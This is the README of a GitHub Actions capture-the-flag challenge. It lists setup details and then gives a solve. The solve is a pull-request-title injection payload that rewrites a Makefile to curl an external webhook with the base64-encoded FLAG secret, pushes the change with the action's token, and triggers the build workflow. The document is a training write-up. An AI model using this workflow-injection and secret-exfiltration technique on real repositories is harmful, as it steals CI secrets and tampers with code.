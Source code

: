 ## About

![challenge screenshot](./screenshot.png)

Author: `mbund`

`misc` `medium`

CTF challenge based on GitHub Actions. This repository has an OAuth application registered with GitHub, and will automatically create a new private repository for each user that logs in under the [smederij](https://github.com/smederij) organization. The user cannot push code to the repository, it is a pull request/issue challenge. Players get their own repos because they need to be able to create issues and pull requests, but we don't want players to view each other's repos.

> Laat het smeden beginnen!

## Maintaining

Clean up/delete all automatically created smith repos

```
gh repo list smederij --json name -q '.[].name' | grep '^smith-' | awk '{print "smederij/"$0}' | xargs -L1 gh repo delete --yes
```

The minimum required permissions for the GitHub access token (on the Organization Smederij) are:

- Repository
  - Administration (read and write)
  - Contents (read and write)
  - Metadata (read-only, mandatory anyways)
  - Secrets (read and write)
  - Workflows (read and write)
- Organization
  - Members (read and write)

## Name

After the Gitea project split, the community fork was named Forgejo, which is Esparanto for forge. Smederij is Dutch for forge.

## Solve

Create a pull request (editing anything), and set its title to this:

```
";printf 'all:\n	curl https://webhook.site/f3b6bb13-9c90-45b6-8c8a-2f4abdf0a622?flag=`echo ${FLAG} | basenc --base64url`' > Makefile;git config user.name 'github-actions[bot]';git config user.email '41898282+github-actions[bot]@users.noreply.github.com';git add -A;git commit -m 'malicious';git push;gh workflow run -R smederij/template build;#
```

Explanation: There is a template injection vulnerability in `.github/workflows/label.yaml` on the title of the pull request which allows us to run shell code. We can use that to steal the `$GITHUB_TOKEN` of the action and make a commit to the repo. In `.github/workflows/build.yaml`, the step which runs `make` is run with the `FLAG` secret, so in our commit we can edit the `Makefile` to send the flag to us. We can then run the build workflow to trigger the malicious `Makefile`.
